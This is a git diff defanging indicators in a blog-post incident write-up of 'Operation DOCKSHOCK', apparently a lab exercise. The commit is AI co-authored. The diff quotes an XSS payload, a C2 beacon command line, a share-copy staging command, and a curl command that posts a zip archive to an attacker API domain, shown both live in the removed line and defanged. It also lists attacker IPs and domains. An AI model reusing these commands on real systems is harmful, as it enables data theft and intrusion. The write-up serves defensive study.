

Before and after one commit to joshberk/joshberk.github.io, a Jekyll site: the page built from _posts/2026-06-22-operation-dockshock.md, in a window 1280 px wide and 1400 px high, scrolled down 7095 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
docs: defang IOCs in DOCKSHOCK and Encryptodera reports
Apply IR-standard defanging (domains, URLs, emails, external IPs) across
prose, bullet lists, IOC/MITRE tables, and figure captions:
- example.com -> example[.]com, http(s):// -> hxxp(s)://, user@ -> user[@]
- convert the clickable phishing lure link to non-clickable defanged text

Intentionally left as-is: KQL/command code blocks (kept runnable),
internal RFC1918 IPs, filenames/extensions, and the KC7 attribution link.

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/_posts/2026-06-22-operation-dockshock.md
+++ b/_posts/2026-06-22-operation-dockshock.md
@@ -79,17 +79,17 @@ InboundNetworkEvents
 | project timestamp, src_ip, user_agent, url, status_code
 ```
 
-{% include figure.html src="/assets/images/posts/operation-dockshock/s-3.png" alt="Web log inbound event from 13.201.46.208 with a 404 error code and Opera/8.64 user-agent string" caption="Figure 3: Perimeter probe from 13.201.46.208 — 404 responses and an anomalous Opera/8.64 user agent." %}
+{% include figure.html src="/assets/images/posts/operation-dockshock/s-3.png" alt="Web log inbound event from 13[.]201[.]46[.]208 with a 404 error code and Opera/8.64 user-agent string" caption="Figure 3: Perimeter probe from 13[.]201[.]46[.]208 — 404 responses and an anomalous Opera/8.64 user agent." %}
 
 *   **Attacker Payload:** `</script><script>alert('xss')</script>`
 *   **WAF Mitigation Status:** Deflected. The web server responded with a 404 Status Code, preventing script execution.
 *   **Attacker User Agent:** Opera/8.64.(X11; Linux x86_64; kok-IN) Presto/2.9.165 Version/10.00
 
-Expanding the search window around this user agent exposed a cluster of **4 malicious IP addresses** (98.117.26.236, 13.201.46.208, 105.78.23.64, 56.6.30.190) executing **9 distinct exploitation requests** across a multi-day window. Passive DNS correlation tied these IPs to a deliberate **twin-typosquatting infrastructure** scheme engineered to mimic authentic industry communications:
+Expanding the search window around this user agent exposed a cluster of **4 malicious IP addresses** (98[.]117[.]26[.]236, 13[.]201[.]46[.]208, 105[.]78[.]23[.]64, 56[.]6[.]30[.]190) executing **9 distinct exploitation requests** across a multi-day window. Passive DNS correlation tied these IPs to a deliberate **twin-typosquatting infrastructure** scheme engineered to mimic authentic industry communications:
 
-*   **eco-awareness-updates.net** *(plural)* ── inbound mail-routing / phishing envelope domain.
-*   **eco-awareness-update.net** *(singular)* ── backend API staging and exfiltration landing zone.
-*   **news-on-industry.com** / **energy-trends4u.net** ── hosted file-delivery relays.
+*   **eco-awareness-updates[.]net** *(plural)* ── inbound mail-routing / phishing envelope domain.
+*   **eco-awareness-update[.]net** *(singular)* ── backend API staging and exfiltration landing zone.
+*   **news-on-industry[.]com** / **energy-trends4u[.]net** ── hosted file-delivery relays.
 
 ### Phase 3: Initial Access via Spear-Phishing
 
@@ -130,7 +130,7 @@ ProcessEvents
 
 {% include figure.html src="/assets/images/posts/operation-dockshock/s-5.png" alt="Process event log showing the ecobug.exe execution command line with destination and port flags" caption="Figure 5: Process log capturing ecobug.exe execution with C2 destination and port arguments." %}
 
-*   **C2 Command Line:** ecobug.exe --timeout 6000 --dest 98.117.26.236 --port 1337
+*   **C2 Command Line:** ecobug.exe --timeout 6000 --dest 98[.]117[.]26[.]236 --port 1337
 *   **Beaconing Signature:** The malware operated on a strict automated cadence, initiating an outbound connection over TCP Port 1337 exactly 1 time per day at 17:38:25.
 *   **Scope of Compromise:** Expanding the beacon signature across the enterprise revealed 470 total persistent connections impacting 38 unique employee endpoints.
 
@@ -162,9 +162,9 @@ ProcessEvents
 
 {% include figure.html src="/assets/images/posts/operation-dockshock/s-6.png" alt="PowerShell command line copying network assets to a local C drive staging folder" caption="Figure 6: PowerShell staging command copying source assets to a local staging folder." %}
 
-*   **Data Scrape Command:** Copy-Item -Path \\solvisystems.com\SharedDocs\SoftwareDevelopment\CycleDocuments\* -Destination C:\Users\alpetrov\CollectedData\Software_Cycle_Docs
+*   **Data Scrape Command:** Copy-Item -Path \\solvisystems[.]com\SharedDocs\SoftwareDevelopment\CycleDocuments\* -Destination C:\Users\alpetrov\CollectedData\Software_Cycle_Docs
 
-The collected assets were compressed locally into `C:\Users\alpetrov\CollectedData\CollectedData.zip`. To prepare for exfiltration, the actor relocated this staging archive out of the user directory into a localized root path, renaming it to `C:\DataExfil\CollectedData.zip` to streamline programmatic access. Concurrently, the attacker compromised three distinct internal accounts to browse the developer intranet (devportal.solvisystems.com) and read the internal_process.pdf deployment documentation. The adversary even used compromised mailboxes to distribute phishing messages internally under urgent security headings (Urgent Request: DOCKS System Documentation) to gather structural details.
+The collected assets were compressed locally into `C:\Users\alpetrov\CollectedData\CollectedData.zip`. To prepare for exfiltration, the actor relocated this staging archive out of the user directory into a localized root path, renaming it to `C:\DataExfil\CollectedData.zip` to streamline programmatic access. Concurrently, the attacker compromised three distinct internal accounts to browse the developer intranet (devportal[.]solvisystems[.]com) and read the internal_process.pdf deployment documentation. The adversary even used compromised mailboxes to distribute phishing messages internally under urgent security headings (Urgent Request: DOCKS System Documentation) to gather structural details.
 
 On May 28, 2024, the adversary leveraged `curl.exe` — a native utility that ships by default with modern Windows — as a **Living-off-the-Land Binary (LotLBin)** to bypass standard file-transfer protocol tracking, exfiltrating the source blueprint archive directly over an HTTP POST stream:
 
@@ -174,16 +174,16 @@ ProcessEvents
 | where process_commandline contains "curl" and process_commandline contains "upload"
 ```
 
-{% include figure.html src="/assets/images/posts/operation-dockshock/s-7.png" alt="Curl command performing a file POST to api.eco-awareness-update.net" caption="Figure 7: curl exfiltration — file POST to the adversary API node api.eco-awareness-update.net." %}
+{% include figure.html src="/assets/images/posts/operation-dockshock/s-7.png" alt="Curl command performing a file POST to api[.]eco-awareness-update[.]net" caption="Figure 7: curl exfiltration — file POST to the adversary API node api[.]eco-awareness-update[.]net." %}
 
-*   **Exfiltration Command Line:** curl -F 'file=@C:\DataExfil\CollectedData.zip' https://api.eco-awareness-update.net/upload
+*   **Exfiltration Command Line:** curl -F 'file=@C:\DataExfil\CollectedData.zip' hxxps://api[.]eco-awareness-update[.]net/upload
 
 ## 3. MITRE ATT&CK Matrix Mapping
 
 | Tactic | Technique ID | Technique Name | Operational Context |
 |---|---|---|---|
 | Reconnaissance | T1592 | Gather Victim Host Information | Automated web scanning targeting the docks-ics documentation profile. |
-| Initial Access | T1566.002 | Spearphishing Link | Lure distributed via twin typosquat infrastructure (eco-awareness-updates.net). |
+| Initial Access | T1566.002 | Spearphishing Link | Lure distributed via twin typosquat infrastructure (eco-awareness-updates[.]net). |
 | Execution | T1204.002 | User Execution: Malicious File | Recipient interaction launching the weaponized document download stream. |
 | Command & Control | T1571 | Non-Standard Port | Custom beaconing loop established via ecobug.exe over TCP/1337. |
 | Persistence | T1078.003 | Valid Accounts: Local Accounts | Creation of a localized administrative user profile (gu@rd!an). |
@@ -198,11 +198,11 @@ ProcessEvents
 | Type | Indicator | Context / Association |
 |---|---|---|
 | SHA256 Hash | 1c3ef0407d5714037504c52f7abfa86c081fd7a021b52e2abe8a669f92413252 | Malicious payload binary (ecobug.exe) |
-| IP Address | 98.117.26.236 | Primary Command-and-Control (C2) listener destination |
-| IP Address | 13.201.46.208 | Initial Cross-Site Scripting (XSS) reconnaissance node |
-| Domain | eco-awareness-updates.net | Phishing delivery envelope domain (plural typosquat) |
-| Domain | eco-awareness-update.net | Exfiltration API routing target (singular typosquat) |
-| Domain | news-on-industry.com | Malicious weaponized-document hosting relay |
+| IP Address | 98[.]117[.]26[.]236 | Primary Command-and-Control (C2) listener destination |
+| IP Address | 13[.]201[.]46[.]208 | Initial Cross-Site Scripting (XSS) reconnaissance node |
+| Domain | eco-awareness-updates[.]net | Phishing delivery envelope domain (plural typosquat) |
+| Domain | eco-awareness-update[.]net | Exfiltration API routing target (singular typosquat) |
+| Domain | news-on-industry[.]com | Malicious weaponized-document hosting relay |
 | User Profile | gu@rd!an | Backdoor local administrative account profile |
 | User Agent | Opera/8.64.(X11; Linux x86_64; kok-IN) Presto/2.9.165 Version/10.00 | Threat-actor reconnaissance browser footprint |
 
@@ -211,7 +211,7 @@ ProcessEvents
 Based on the multi-layer tactical breakdown of Operation DOCKSHOCK, the following Tier-2 defense architecture changes are mandated for deployment:
 
 1.  **Network Architecture Micro-Segmentation (IT/OT Defenses):**
-    Implement explicit network boundaries isolating the engineering software compilation zone (devportal.solvisystems.com and SharedDocs) from general corporate sales and operations tiers. Inter-zone file transfers must be gated behind multi-factor authorization proxies.
+    Implement explicit network boundaries isolating the engineering software compilation zone (devportal[.]solvisystems[.]com and SharedDocs) from general corporate sales and operations tiers. Inter-zone file transfers must be gated behind multi-factor authorization proxies.
 2.  **Strict Egress Application Whitelisting:**
     Block all outbound perimeter egress over arbitrary high ports (such as TCP/1337). Restrict command-line web automation utilities like curl and Invoke-WebRequest on user endpoints through AppLocker or an equivalent Endpoint Detection and Response (EDR) policy to halt automated exfiltration pipelines.
 3.  **Local Administrator Restriction & Account Creation Monitoring:**
````
Also changed, not shown: other parts of _posts/2026-06-22-operation-dockshock.md (+2 -2 lines), _posts/2026-06-25-inside-encryptodera.md (+9 -9 lines).
